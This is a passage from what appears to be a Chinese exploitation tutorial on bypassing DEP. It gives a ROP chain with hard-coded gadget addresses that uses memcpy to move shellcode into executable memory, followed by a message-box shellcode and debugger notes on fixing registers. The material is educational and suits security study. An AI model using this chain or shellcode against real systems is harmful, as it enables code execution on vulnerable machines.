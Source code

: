 ```c
    "\x5F\x78\xA6\x7C"//address of pop ecx retn
    "\x00\x00\x03\x00"// 这里是下面memcpy执行返回前esp所执向，所以安排可执行地址00030000,也可以根据实际shellcode位置进行更精确定位
    "\x00\x00\x03\x00"//可执行内存空间地址,memcpy目标地址
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy 函数切入点; 
    "\x00\x00\x03\x00"//???????
    "\x00\x00\x03\x00"//???????
    "\x00\x90\x90\x94"
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;
```

重新编译程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后按 F8 键单步运行进入 0x00030000 内存空间执行后暂停，观察内存状态。

如图 12.3.30 所示，memcpy 函数复制过来的不只是弹出对话框的机器码，还包含着弹出对话框机器码前面的一些指令和参数，而这些东西会破坏程序的执行，所以我们要想办法搞定它们。

<img src="images/09/转入0x00030000执行.png">

首先是对 ESI 和 EDI 指向内存的操作，在 0x00030004 和 x00030005 分别对 ESI 和 EDI 指向的内存有读取操作，我们需要保证 ESI 和 EDI 指向合法的位置。ESI 和 EDI 是在 memcpy 函数返回前被 POP 进去的（如图 12.3.28 所示），这也是为什么在 shellcode 中 memcpy 函数切
入点下边我们没有使用 0x90 填充而使用两个 0x00030000 填充。
接下来是 0x00030006 的 XCHG EAX,EBP 指令，这条指令直接破坏了 ESP，而在弹出对话框的机器码中有 PUSH 操作，所以 ESP 要修复，故我们在弹出对话框的机器码前边使用 0x94填充，在 0x00030013 处来修复这个问题。
